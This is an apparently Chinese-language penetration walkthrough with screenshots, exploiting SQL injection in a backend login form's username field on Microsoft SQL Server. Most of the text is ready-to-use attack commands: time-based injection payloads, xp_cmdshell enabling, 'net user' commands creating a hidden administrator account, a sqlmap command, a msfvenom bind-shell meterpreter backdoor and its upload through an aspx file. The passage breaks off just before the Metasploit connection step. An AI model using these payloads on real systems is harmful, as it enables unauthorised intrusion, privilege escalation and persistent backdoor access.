 ![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ADPmHFz2qUd6yribKia4q80LibZkVh9A3nYicOdOrBwqWiaRcpWVATgU0eYecQ3eU5DcraYDibQSwwXiaFXw/640?wx_fmt=png)

显然后台登录表单 username 存在注入:

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ADPmHFz2qUd6yribKia4q80LibJqJwK8xvlMQNliaiaoqcr6mTbBicvUatJyKE2vhJ0zZoJkUSUStokwibfA/640?wx_fmt=png)

我们可以先进行相关判断，再通过其添加系统用户：

判断是不是 dba 权限 (延时后返回正确页面，确定为 dba 权限 < 也可用 sqlmap 的–is-dba 判断 >)

admin';if(1=(selectis_srvrolemember('sysadmin'))) WAITFOR DELAY'0:0:2';--

判断是否是站库分离 (延时后返回正确页面，确定站库没有分离)

admin';if(host_name()=@@servername)WAITFOR DELAY'0:0:5';--

查看是否有 xp_cmdshell:

admin';if(1=(selectcount(*) from master.dbo.sysobjects where xtype ='x'and name ='xp_cmdshell')) WAITFOR DELAY'0:0:2'--

恢复／删除 xp_cmdshell

execsp_addextendedproc xp_cmdshell,@dllname='xplog70.dll'

execsp_dropextendedproc 'xplog70.dll'

先开启 xp_cmdshell：

execsp_configure 'show advanced options', 1;reconfigure;

execsp_configure 'xp_cmdshell',1;reconfigure;

添加用户 test，并添加 test 用户到管理员组

execmaster..xp_cmdshell 'net user test 123. /add'

execmaster..xp_cmdshell 'net localgroup administrators test add'

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ADPmHFz2qUd6yribKia4q80LibAAdVbViaxtC5rmGrqpTOBM35VJJrPx30k9y6ialKco90fwdZ2djMAAbw/640?wx_fmt=png)

也可以通过注入用 sqlmap 进行 getshell：

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ADPmHFz2qUd6yribKia4q80LibVq9A1MLibf5kBzBIlO75D4QiaLBLHWqc9UEotRrnU2DmjkBRZFG5VxBg/640?wx_fmt=png)

爆出相关库：sqlmap-r post --dbms mssql -v 1 --dbs --batch

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ADPmHFz2qUd6yribKia4q80LibNRzzbDKLR1LFIUxp7aHF5icSwp1brWt08G5ibBPAGIE8SN5sM0CJMdwQ/640?wx_fmt=png)

Msf 生成 bind.exe 正向后门：

msfvenom-p windows/meterpreter/bind_tcp lport=13777 -f exe -o hb.exe

用 aspx 文件上传 bind.exe，并调用 exec 执行：

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ADPmHFz2qUd6yribKia4q80LibA1JtmneMiasbkwiafbgibGKTm0gdqpYf1uYDfOvBfhqWeZDQ7Q9X9PWrg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ADPmHFz2qUd6yribKia4q80Lib4CN3yKdPzCybK5w5YJ2C08gT79daUnfXnTpxmZfqougkaDLOAuv4AQ/640?wx_fmt=png)

Msf 执行相应命令进行连接：
